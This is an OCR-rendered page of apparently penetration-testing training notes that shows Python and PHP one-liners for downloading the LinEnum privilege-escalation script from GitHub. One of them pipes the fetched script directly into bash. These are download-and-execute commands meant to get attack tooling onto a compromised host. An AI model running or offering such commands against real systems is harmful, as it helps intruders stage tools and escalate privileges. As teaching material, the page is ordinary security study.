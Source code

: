 
## Python 3 Downlaod

```python

python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

```

## PHP Download with File_get_contents()

```php

php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

```

#### PHP Download with Fopen()

```shell-session

[!bash!]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

```

#### PHP Download a File and Pipe it to Bash

```shell-session

[!bash!]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash

```

